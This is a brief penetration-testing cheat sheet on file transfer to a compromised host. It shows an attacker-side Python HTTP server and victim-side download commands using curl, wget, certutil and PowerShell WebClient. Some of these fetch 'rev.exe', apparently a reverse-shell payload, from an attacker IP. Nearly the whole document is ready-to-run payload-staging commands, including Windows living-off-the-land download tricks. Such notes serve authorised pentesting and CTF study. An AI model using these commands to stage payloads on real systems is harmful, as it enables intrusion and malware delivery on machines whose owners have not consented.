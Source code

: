 # 2 file transfer

## Linux

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using curl.
```shell
curl http://$me:8888/filename -o filename	
```

- Victim machine using wget.
```shell
wget http://$me:8888/filename -O filename
```

## Windows

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```shell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

## Integrity check

- Check integrity after file transfer using

```shell
md5sum file
```

